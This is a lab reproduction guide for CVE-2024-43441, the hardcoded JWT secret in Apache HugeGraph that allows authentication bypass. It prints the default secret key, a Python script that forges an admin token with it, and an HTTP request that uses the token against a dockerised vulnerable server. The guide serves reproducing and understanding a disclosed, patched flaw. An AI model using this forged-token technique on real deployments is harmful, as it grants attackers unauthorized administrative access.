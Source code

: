 # Apache HugeGraph JWT Token Secret Hardcoding Leads to Authentication Bypass (CVE-2024-43441)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HugeGraph is a fast and highly scalable graph database. It provides graph database capabilities with complete features, excellent performance, and enterprise-level reliability.

A JWT token secret hardcoding vulnerability exists in Apache HugeGraph. When authentication is enabled but `auth.token_secret` is not configured, HugeGraph will use a hardcoded default JWT secret key with the value `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`. An attacker can use this default secret key to generate valid JWT tokens and bypass authentication to perform unauthorized operations.

References:

- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

## Environment Setup

Execute the following command to start a Apache HugeGraph 1.3.0 server:

```
docker compose up -d
```

After the server is started, you can access the HugeGraph RESTful API at `http://your-ip:8080`.

By default, Apache HugeGraph supports two authentication modes: HTTP Basic Authentication and JWT Authentication. When starting the docker container, it will use the `PASSWORD` environment variable as the default administrator's password. Then you can access the API using HTTP Basic Authentication with the username "admin" and this password.

If you try to access the API without providing any authentication headers, you will receive the following error:

```json
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

## Vulnerability Reproduce

Besides the default administrator's password, we can also use the default JWT secret key to generate a valid JWT token and bypass the authentication.

Generate a JWT token using the default secret key:

```python
# Install the jwt library by running `pip install pyjwt`
import jwt

# Generate JWT token using the default secret
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

Use the generated token to access protected endpoints:

```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

You will receive the following response:

![](1.png)

If you remove the `Authorization` header, you will receive the following error:

![](2.png)
